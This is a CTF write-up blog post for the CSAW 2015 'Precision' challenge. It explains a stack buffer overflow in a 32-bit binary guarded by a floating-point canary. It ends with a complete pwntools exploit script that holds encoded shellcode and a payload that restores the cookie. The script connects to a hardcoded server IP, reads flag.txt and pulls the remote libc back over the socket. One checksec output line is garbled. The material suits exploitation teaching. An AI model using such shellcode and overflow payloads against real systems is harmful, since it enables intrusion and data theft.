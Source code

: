 ```yaml
---
layout:     post
title:      CSAW CTF 2015 - Precision
date:       2015-09-28 12:00:00
summary:    Floating point values do not make good stack cookies
categories: ctf exploit overflow
---
```


### TL; DR
* Overflow

Precision was the lowest point exploitation challenge because it was literally a buffer overflow :3

Let's start by getting an idea what is up with it:

{% highlight bash lineanchors %}
vagrant@precise64:~/csawctf$ file precision
prec: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf2c69f92c3f6d68319ee39c0926e84bccdeb0371, not stripped
{% endhighlight %}

Alright, and the security mitigations it has:

{% highlight bash lineanchors %}
vagrant@precise64:~/csawctf$ ~/Template/checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precfound      NX enabled    No PIE          No RPATH   No RUNPATH   contacts
{% endhighlight %}

Oh boy! No NX! So we can put shellcode into our payload :3

{% highlight nasm lineanchors %}
804856f:       lea    eax,[esp+0x18]
8048573:       mov    DWORD PTR [esp+0x4],eax     ; Our input
8048577:       mov    DWORD PTR [esp],0x8048682   ; Scanf format string
804857e:       call   8048410 <__isoc99_scanf@plt>
{% endhighlight %}

Oh man, we have a `scanf` that prompts us for our input and stores it in a static buffer.

If we look at the function prologue, we get an idea how big this buffer is:

{% highlight nasm lineanchors %}
8048523:       sub    esp,0xa0 ; Our return address will be around 0xa0 bytes
{% endhighlight %}

The interesting part of this challenge comes from this part of `main`:

{% highlight nasm lineanchors %}
8048583:       fld    QWORD PTR [esp+0x98]
804858a:       fld    QWORD PTR ds:0x8048690
8048590:       fucomip st,st(1)
8048592:       fstp   st(0)
8048594:       jp     80485a9 <main+0x8c>
8048596:       fld    QWORD PTR [esp+0x98]
804859d:       fld    QWORD PTR ds:0x8048690
80485a3:       fucomip st,st(1)
80485a5:       fstp   st(0)
80485a7:       je     80485c1 <main+0xa4>
{% endhighlight %}

We see a lot of floating point operations and at the beginning of that code we see a floating point load from `0x8048690`. Looking at the beginning of this function we see the same address again:

{% highlight nasm lineanchors %}
8048529:       fld    QWORD PTR ds:0x8048690
804852f:       fstp   QWORD PTR [esp+0x98]
{% endhighlight %}

and it is storing the value in a stack based variable meaning it is most likely using this floating point value as a "stack cookie" more or less. So by simply getting the bytes of this floating point value and sticking them into our payload at the right offset as to align them with where the floating point value is located, we pass this check and get our exploit to land :3

Oh yeah, they also give us the address of our buffer in memory, so it is super easy peasy :3

### Note
This script also includes an example of how to exfiltrate a libc in case you need it for a higher point problem :3

{% highlight python lineanchors %}
from pwn import *

r = remote("54.173.98.115", 1259)


shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80\x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e\x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38\xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36\x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87"

buf = int(r.recvline().strip()[-8:], 16)

r.sendline("A"*(0x80 - len(shellcode)) + shellcode + "\xA5\x31\x5A\x47\x55\x15\x50\x40EEEECCCCDDDD" + p32(buf+8))
r.recv()

r.sendline("cat flag.txt")
print r.recv()

r.sendline("cat /lib32/libc.so.6")

x = ""
while r.can_recv(5):
    x += r.recv()

with open("libc", "wb") as f:
    f.write(x)
{% endhighlight %}
